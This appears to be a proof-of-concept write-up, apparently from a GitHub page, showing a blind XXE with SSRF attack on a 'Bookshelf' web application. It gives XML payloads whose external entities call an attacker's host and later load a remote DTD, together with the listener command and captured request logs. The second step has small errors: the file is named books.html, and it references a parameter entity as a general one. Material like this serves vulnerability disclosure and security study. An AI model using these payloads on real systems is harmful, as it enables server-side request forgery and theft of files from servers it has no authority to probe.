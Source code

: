 

### Blind XXE with SSRF (Server Side Request Forgery)

1. Create books.xml

   ```
   <?xml version="1.0" encoding="UTF-8"?>
   <!DOCTYPE document [
   <!ENTITY xxe SYSTEM "http://192.168.101.125:4444">
   ]>
   <BOOKS>
     <STUDENT>
     <ID>1001</ID>
     <NAME>&xxe;</NAME>
     <BOOK1>Ah, Wilderness!</BOOK1>
     <BOOK2>All Passion Spent</BOOK2>
     <BOOK3>The Soldier's Art</BOOK3>
     <BOOK4>Alone on a Wide, Wide Sea</BOOK4>
     <BOOK5>An Acceptable Time</BOOK5>
     </STUDENT>
   
   ```

2. Open listening http server

   ```
   python3 -m http.server 4444
   ```

3. Upload books.xml in Bookshelf web application admin login and verify

4. Check the http server logs 

   ```
   python3 -m http.server 4444    
   Serving HTTP on 0.0.0.0 port 4444 (http://0.0.0.0:4444/) ...
   192.168.101.119 - - [15/Oct/2021 23:22:49] "GET / HTTP/1.1" 200 -
   ```

5. Edit books.html

   ```
   <?xml version="1.0" encoding="UTF-8"?>
   <!DOCTYPE document [
   <!ENTITY % xxe SYSTEM "http://192.168.101.125:4444/remote.dtd"> %xxe;
   ]>
   <BOOKS>
     <STUDENT>
     <ID>1001</ID>
     <NAME>&xxe;</NAME>
     <BOOK1>Ah, Wilderness!</BOOK1>
     <BOOK2>All Passion Spent</BOOK2>
     <BOOK3>The Soldier's Art</BOOK3>
     <BOOK4>Alone on a Wide, Wide Sea</BOOK4>
     <BOOK5>An Acceptable Time</BOOK5>
     </STUDENT>
   ```
